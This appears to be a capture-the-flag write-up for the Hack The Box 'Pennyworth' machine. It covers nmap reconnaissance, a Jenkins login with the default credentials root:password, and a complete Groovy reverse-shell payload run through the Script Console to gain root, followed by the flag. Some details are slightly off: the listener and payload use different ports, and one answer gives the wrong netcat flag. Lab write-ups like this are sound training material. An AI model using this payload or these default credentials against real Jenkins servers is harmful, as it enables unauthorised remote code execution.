


# Pennyworth

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. What does the acronym CVE stand for?

> Common Vulnerabilities and Exposures

#### 2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

> Confidentiality, Integrity, Availability

#### 3. What is the version of the service running on port 8080?

```sh
$ nmap -A -T4 10.129.183.181
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-02 21:16 CET
Nmap scan report for 10.129.183.181
Host is up (0.091s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.55 seconds
```

> Jetty 9.4.39.v20210325

#### 4. What version of Jenkins is running on the target?

We can login on `http://10.129.183.181:8080` with default `Jenkins` credentials `root:password`:



> 2.289.1

#### 5. What type of script is accepted as input on the Jenkins Script Console?

> Groovy

#### 6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

> cmd.exe

#### 7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

> ifconfig

#### 8. What switch should we use with netcat for it to use UDP transport mode?

> -U

#### 9. What is the term used to describe making a target host initiate a connection back to the attacker host?

> reverse shell

#### Submit root flag

First, set up our `netcat` listener:

```sh
$ nc -l 9001
```

Then we need to execute [Groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy) payload to get the reverse shell:

```sh
String host="{your_IP}";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Under `http://10.129.183.181:8080/script`:



And we got the shell:

```sh
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/flag.txt
9cdfb439c7876e703e307864c9167a15
```

## Final Flag

> 9cdfb439c7876e703e307864c9167a15

*Created by [bu19akov](https://github.com/bu19akov)*